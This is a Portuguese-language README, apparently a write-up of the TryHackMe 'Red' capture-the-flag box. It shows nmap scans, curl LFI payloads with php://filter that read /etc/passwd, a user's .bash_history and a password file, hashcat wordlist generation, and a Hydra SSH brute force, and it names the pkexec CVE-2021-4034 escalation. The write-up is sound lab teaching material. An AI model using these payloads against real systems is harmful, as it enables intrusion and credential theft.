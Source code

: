 <div align="center">

# 🚩 TryHackMe – Red (Writeup)

*"A classic battle for the ages."* ⚔️🐉

<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=22&pause=1000&color=FF0000&width=600&lines=Linux+Exploitation;LFI+File+Disclosure;Password+Cracking;SSH+Access;Privilege+Escalation;CTF+Walkthrough" alt="Typing SVG" />
</p>

</div>

---

<div align="center">

## 📌 Informações da Máquina

* **Categoria:** Linux | Web
* **Dificuldade:** 🟢 Easy
* **Tempo Estimado:** ⏱️ 180 min
* **Status:** ✅ Rooted com sucesso

</div>

---

<div align="center">

## 🗺️ Roadmap da Exploração

</div>

```mermaid
graph TD
A["Enumeração Inicial"] --> B["LFI em index.php?page"]
B --> C["Leitura de arquivos sensíveis"]
C --> D["Descoberta senha .reminder"]
D --> E["Hydra/Hashcat → SSH Blue"]
E --> F["Flag1 como Blue"]
F --> G["Acesso ao Red (Flag2)"]
G --> H["Escalada CVE-2021-4034 pkexec"]
H --> I["Root Shell + Flag3"]
```

---

## 🔍 Enumeração Inicial

Configuração de variáveis:

```bash
export TARGET=10.201.46.185
export ATTACKER=10.201.1.201
mkdir -p ~/thm/red && cd ~/thm/red
```

Teste de conectividade (TTL indica Linux):

```bash
ttl=$(ping -c 1 $TARGET 2>/dev/null | awk -F'ttl=' '/ttl=/{print $2}' | cut -d ' ' -f1); echo "TTL=$ttl"
TTL=64
```

### Nmap rápido

```bash
nmap -sC -sV -Pn -T4 -oN nmap_quick.txt $TARGET
```

**Serviços encontrados:**

* **22/tcp** → SSH (OpenSSH 8.2p1 Ubuntu)
* **80/tcp** → HTTP (Apache 2.4.41)

### Nmap completo

```bash
nmap -p- --min-rate 5000 -T4 -oN nmap_all.txt $TARGET
```

Confirma apenas **22 e 80 abertos**.

A página web mostra o template *“Atlanta”* e o parâmetro `?page=` → potencial **LFI**.

---

## 📂 LFI – Local File Inclusion

Testando leitura de `index.php` via wrapper `php://filter`:

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d | tee src_index.php
```

Código revelado (trecho relevante):

```php
$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}
```

➡️ Bloqueio parcial contra `../`, mas conseguimos **incluir arquivos do sistema**.

Exemplo: `/etc/passwd`

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd" | base64 -d | tee etc_passwd.txt
```

Usuários encontrados:

```
root:x:0:0:root:/root:/bin/bash
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

---

## 🧾 Descoberta de Senha – Usuário Blue

Explorando histórico:

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history" | base64 -d
```

Trecho relevante:

```
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Arquivo `.reminder` encontrado:

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder" | base64 -d
*****
```

---

## 🔑 Quebra de Senha + SSH

Gerando wordlist com Hashcat:

```bash
hashcat --stdout reminder.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Brute-force com Hydra:

```bash
hydra -l blue -P passlist.txt ssh://$TARGET -t 4 -f -V
```

Credenciais válidas:

```
login: blue
password: *****
```

Acesso via SSH:

```bash
ssh blue@$TARGET
```

---

## 👤 Flag 1 – Usuário Blue

```bash
blue@red:~$ ls -lh
-rw-r----- 1 root blue 34 Aug 14  2022 flag1

cat flag1
THM{*****}
```

Mensagem do sistema:
*"Don't be silly Blue, you will never win."*

---

## 🔑 Acesso ao Usuário Red

Dentro do `/home/`, há diretório `red`.
Enumerando:

```bash
cd /home/red
ls -la
```

Arquivo encontrado: **flag2**

```bash
cat flag2
THM{*****}
```

---

## ⚡ Escalada de Privilégio – CVE-2021-4034 (pkexec)

Exploração do **pkexec** (*Polkit Priv Esc*).
Após compilar e executar o exploit → root shell.

---

## 👑 Flag 3 – Root

```bash
cd /root
ls
root.txt
cat root.txt
THM{*****}
```

---

## 🧩 Fluxo Final

1. Enumeração → apenas **SSH e HTTP**.
2. Descoberta de **LFI** em `index.php?page`.
3. Leitura de **/home/blue/.reminder** → senha base.
4. Uso de **Hashcat + Hydra** → acesso SSH do blue.
5. Flag1 (Blue) → pivot para usuário red.
6. Flag2 (Red) → preparação para root.
7. **CVE-2021-4034 (pkexec)** → root.
8. Flag3 final.

---

## 🎉 Conclusão

Essa máquina mistura várias técnicas clássicas:

* Exploração de **LFI** para exfiltrar arquivos.
* Abuso de **bash\_history** e wordlist customizada.
* Força bruta com **hashcat + hydra**.
* **Pivoting** entre usuários (blue → red).
* Escalada final com **CVE pkexec**.

💡 Excelente box para praticar **File Inclusion + Password Cracking + Privilege Escalation** em um fluxo didático de ponta a ponta.

---

<div align="center">

![Snake animation](https://github.com/Platane/snk/raw/output/github-contribution-grid-snake.svg)

</div>
